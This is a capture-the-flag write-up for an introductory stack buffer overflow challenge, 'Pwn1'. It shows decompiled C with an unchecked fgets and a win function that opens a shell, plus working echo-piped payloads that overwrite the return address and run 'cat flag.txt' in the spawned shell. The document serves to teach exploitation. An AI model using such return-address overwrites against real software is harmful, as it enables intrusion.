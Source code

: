 ```yaml
---
title: Pwn1
date: 2023-06-10
type: writeup
author: sunbather
tags:
  - pwn
---
```


## Description of the challenge

Welcome to the series of 3 pwn challenges!

Author: NoobMaster

## Solution

We open the binary in Ghidra and instantly notice the buffer overflow on ``fgets``. It reads 0x50 (80) bytes into a 64 bytes buffer. Given the name of the local variable ``local_48``, it means we have 0x48 bytes until the return address. So, we have 8 bytes of the return address to work with.

```c
void main(EVP_PKEY_CTX *param_1)
{
  char local_48 [64];
  
  init(param_1);
  puts("Would you like a flag?");
  fgets(local_48,0x50,stdin);
  system("cat fake_flag.txt");
  return;
}
```

Running ``checksec`` on the binary shows that it lacks a stack canary and is not a PIE. Another interesting function in Ghidra is ``win``, which calls ``system("/bin/sh")``. This is simply an introductory buffer overflow.

```c
void win(void)
{
  system("/bin/sh");
  return;
}
```

Collect the address for ``win``: ``0x0040124a``

Use the address to create the exploit:
```
$ python3 -c 'print("a" * 0x48)'
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
$ echo -ne 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x4a\x12\x40\x00\x00\x00\x00\x00' | ./pwn1
Would you like a flag?
n00bz{fake_flag}
Segmentation fault (core dumped)
```

Initially this seems like it doesn't work, but I think it's just because it doesn't properly redirect the streams. So let's add a command at the end of the output, the shell we open will receive it and execute it before closing.
```
$ echo -ne 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x4a\x12\x40\x00\x00\x00\x00\x00cat flag.txt' | ./pwn1
Would you like a flag?
n00bz{fake_flag}
n00bz{I_like_.hidden}
Segmentation fault (core dumped)
```
Success! We can see the "real" flag printed! Trust me, that's exactly what the flag was.
